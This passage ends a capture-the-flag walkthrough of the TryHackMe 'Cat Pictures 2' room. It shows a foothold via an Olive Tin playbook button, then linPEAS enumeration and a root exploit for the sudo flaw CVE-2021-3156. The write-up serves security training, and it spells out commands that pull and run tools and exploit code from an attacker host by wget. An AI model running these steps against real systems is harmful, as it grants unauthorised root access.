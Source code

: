 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493256582/5afae235-62d0-4455-bfd2-e4d9776bb73d.png){: .center-image }

### Step 4: Foothold

After clicking the *Run Ansible Playbook* button from the Olive Tin application and waiting a few seconds, we get a shell and our second flag!

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493275285/ebd55d3f-6e93-433e-87a7-3b1673057b8b.png){: .center-image }

From here we're going to begin our privilege escalation. We'll start by getting linPEAS on the box.

From the attack box (where `linPEAS` is saved):

```bash
python3 -m http.server 8000
```

From victim:

```bash
wget http://<ATTACKER_IP>:8000/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

### Step 5: Privesc and Root

Luckily for us, there's a GitHub repository we can use to exploit this.

From the attack box (where the exploit is saved):

```bash
git clone https://github.com/blasty/CVE-2021-3156
tar -cvf exploit.tar CVE-2021-3156
python3 -m http.server 8000
```

From victim:

```bash
wget http://10.13.28.215:8000/exploit.tar
tar xopf exploit.tar
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich 0
```

We have root and our last flag!

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493363765/e35c3ff3-b1dc-4f68-ad02-81ec9164223d.jpeg){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691493369043/8f1682e1-a506-47e3-bc5e-4cacb092f279.png){: .center-image }

I hope you enjoyed this walkthrough of [Cat Pictures 2](https://tryhackme.com/room/catpictures2) by [gamercat](https://tryhackme.com/p/gamercat). Happy hacking.